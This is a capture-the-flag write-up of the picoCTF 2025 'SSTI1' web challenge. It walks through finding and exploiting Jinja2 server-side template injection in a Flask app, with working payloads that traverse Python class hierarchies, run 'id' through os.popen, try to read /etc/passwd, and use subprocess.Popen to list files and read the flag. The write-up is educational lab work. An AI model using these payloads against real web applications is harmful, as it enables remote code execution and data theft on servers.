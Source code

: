 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)


Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}

- Returns: <class 'object'>

Sending: __{{g.__class__.__mro__}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __{{g.__class__.mro()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['mro']()}}__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __{{g['__class__']['__mro__']}}__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __{{get_flashed_messages}}__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __{{get_flashed_messages.__class__}}__

- Returns: <class 'function'>

Sending: __{{get_flashed_messages.__class__.__mro__}}__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __{{get_flashed_messages.__class__.__mro__[1]}}__
- Returns: <class 'object'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __{{g}}__

- Returns: <flask.g of 'app'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}__

- Returns: <class 'mappingproxy'>

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}__

- Returns: /etc/passwd

Sending: __{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}__

- Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __{{app.__class__}}__

- Returns: <class 'jinja2.runtime.Undefined'>

Sending: __{{app.__class__.__mro__}}__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: __{{app.__class__.__mro__[1].__subclasses__()}}__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __{{app.__class__.__mro__[1].__subclasses__()[356]}}__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:


Sending: __{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}__

- Returns __picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


